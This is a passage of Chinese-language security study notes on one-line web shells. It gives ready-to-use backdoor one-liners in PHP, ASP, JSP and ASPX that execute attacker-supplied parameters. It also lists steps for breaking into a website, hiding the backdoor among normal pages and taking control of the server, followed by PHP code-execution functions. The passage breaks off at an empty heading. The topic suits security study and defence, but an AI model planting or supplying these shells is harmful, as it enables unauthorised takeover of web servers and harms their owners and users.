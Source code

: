 ###### ④更换数据源

##### d. 一句话木马

###### ①php

```php
<?php @assert($_POST['cmd']);?>
```

###### ②asp

```asp
<%eval request("cmd")%>
<%execute request("cmd")%>
<%execute(request("cmd"))%>
<%executeGlobal request("cmd")%>
<%eval(Request(chr(35)))%> #ASCII码值
```

###### ③jsp

```jsp
<% @page language="java"
    Runtime.getRuntime().exec(request.getParameter("cmd"));
%>
```

###### ④aspx

```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["pass"], "unsafe"));%>
```

#### (2). 执行

#####  a. 原理

* 利用超全局变量**接受传递的数据**，并将该数据传递给**代码执行函数**进行执行

#####  b. 步骤

1. 入侵网站 
2. 将ASP或PHP等后门文件混入正常网页文件 
3. 通过网页访问后门文件
4. 得到命令执行环境
5. 控制网站服务器

##### c. 相关函数

###### ①PHP执行函数

**eval()、assert()、preg_replace()、create_function()、array_map**、asort、call_user_func()、call_user_func_array()、**array_filter()**

###### ②命令执行函数
